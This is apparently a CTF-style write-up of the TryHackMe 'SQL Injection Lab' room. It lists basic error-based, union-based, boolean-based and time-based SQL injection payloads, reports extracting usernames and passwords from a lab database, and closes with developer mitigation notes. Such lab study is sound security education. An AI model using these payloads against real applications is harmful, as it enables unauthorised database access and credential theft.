 # 🍽️ SQL Injection Lab (TryHackMe)

**Author:** TryHackMe  
**Category:** Web Exploitation  
**Difficulty:** 🟠 Medium  
**Tags:** `SQL Injection`, `TryHackMe`, `BurpSuite`, `Web`, `CTF`

---

## 📘 Description

> This room focuses on learning and exploiting SQL Injection vulnerabilities in a safe lab environment.

---

## 🚀 Challenge Deployment

- Room: [SQL Injection Lab](https://tryhackme.com/room/sqlinjectionlm)
- Platform: TryHackMe

---

## 🔥 Vulnerability: SQL Injection

The lab presents multiple SQLi vulnerabilities: `Error-based`, `Union-based`, `Boolean-based`, and `Time-based`. Using Burp Suite and browser testing, I was able to bypass filters and extract database data.

---

## 💣 Exploitation

### 1. 🔍 Error-Based SQLi

```sql
' OR 1=1-- -
```

Used basic payloads to trigger SQL errors and extract information.

---

### 2. 🧮 Union-Based SQLi

```sql
' UNION SELECT null, database()-- -
```

Enumerated the number of columns and extracted database names.

---

### 3. 🔐 Boolean-Based SQLi

```sql
' AND 1=1-- -
' AND 1=2-- -
```

Detected responses based on true/false conditions to infer data.

---

### 4. ⏳ Time-Based SQLi

```sql
' OR IF(1=1, SLEEP(5), 0)-- -
```

Confirmed time delay to test for blind SQL injection.

---

## 📤 Extracted Info

- 🗃️ Database Name: `webapp`
- 👥 Table: `users`
- 🔑 Extracted: usernames and passwords

---

## 🧠 Lessons Learned

| Technique         | Use Case                             |
|------------------|--------------------------------------|
| Error-based       | Quick data extraction                |
| Union-based       | Combine multiple queries             |
| Boolean-based     | Blind injection with logic testing   |
| Time-based        | Blind injection via response timing  |

---

🛡️ **Mitigation (Developer Notes)**  
> 🚫 Never trust user input  
> ✅ Use prepared statements (parameterized queries)  
> ✅ Use ORM frameworks  
> 🚫 Avoid dynamic query construction  
> ✅ Apply least privilege on DB accounts
